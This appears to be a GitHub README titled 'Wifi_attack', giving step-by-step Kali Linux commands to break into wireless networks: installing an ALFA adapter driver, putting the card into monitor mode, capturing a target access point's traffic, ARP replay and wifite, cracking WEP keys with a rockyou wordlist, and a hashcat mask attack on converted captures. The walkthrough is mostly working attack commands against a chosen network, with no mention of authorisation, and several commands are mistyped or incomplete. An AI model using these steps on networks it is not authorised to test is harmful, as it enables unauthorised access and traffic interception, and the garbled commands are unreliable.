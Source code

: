 # Wifi_attack


tools that I used : ALFA AC1200 AWUS036ACH

## First Step : install driver on Kali Linux

```
apt-get update
apt-get upgrade -y
apt-get dist-upgrade -y
apt-get install dkms`
apt-get install realtek-rtl88xxau-dkms
git clone https://github.com/aircrack-ng/rtl8812au.git`
cd rtl8812au   
make  
make install
```

lastly, you need to reboot your Kali Linux

## Second Step : Discovering Networks

Prior to looking for networks, you must put your wireless card into what is called "monitor mode". Monitor mode is a special mode that allows your computer to listen to every wireless packet. This monitor mode also allows you to optionally inject packets into a network.

To put your wireless card into monitor mode using airmon-ng:

`airmon-ng start wlan0`

To confirm it is in monitor mode, run "iwconfig" and confirm the mode.

Then, start airodump-ng to look out for networks:

`airodump-ng wlan0`

if airodump-ng could connect to the WLAN device, you'll see a screen like this:

https://www.aircrack-ng.org/lib/exe/fetch.php?tok=1b417c&media=https%3A%2F%2Fwww.aircrack-ng.org%2Fimg%2Fnewbie_airodump.png

The current channel is shown in the top left corner.

After a short time some APs and (hopefully) some associated clients will show up.

The upper data block shows the access points found:

BSSID The MAC address of the AP
RXQ Quality of the signal, when locked on a channel
PWR Signal strength. Some drivers don't report it
Beacons Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons, the better the signal quality
Data : Number of data frames received 
CH : Channel the AP is operating on
MB : Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g
ENC : Encryption 
ESSID : the network name. Sometimes hidden

the lower data block shows the clients found:

BSSID : The MAC of the AP this client is associated to 
STATION : The MAC of the client itself  
PWR : Signal strenght. Some driver don't report it
Packets : Number of data frames received
Probes: Network names (ESSIDs) this client has probed

## Third Step : Sniffing

Because of the channel hopping you won't capture all packets from your target net. So we want to listen just one channel and additionally write all data to disk to be able to use it for cracking:

`airodum-ng -c 11 --bssid 00:01:02:03:04:05 -w dump wlan0`

With the -c parameter you tune to a channel and the parameter after -w is the prefix to the network dumps written to disk. The "--bssid" combined with the AP MAC address limites the capture to the one AP. 

## ARP replay

First open a window with an airodump-ng sniffing for traffic. aireplay-ng and airodump-ng can run together. Wait for a client to show up on the target network. Then start the attack:

```
aireplay-ng --arp

sudo wifite --no-pmkid

sudo airodump-ng --band abg wlan0

```



## Cracking 

if you've got enough IVs captured in one or more file, you can try to crack the WEP key:

`aircrack-ng -w /usr/share/wordlists/rockyou.txt dump-01.cap`


## HashCat 


```
sudo apt install hcxtools

hcxpcapngtool -o hashcat_format dump-01.cap

```
transfer the hashcat_format to your machine (create a shared directory)

install the hashcat.exe

we have received a hashcat netmask ?u?d?l?l?u?l?s?s

on powershell : `.\hashcat.exe -m 22000 -a 3 . . \hashes\hashcat_format ?u?d?l?l?u?l?s?s  . . \hashes\optimized.txt `
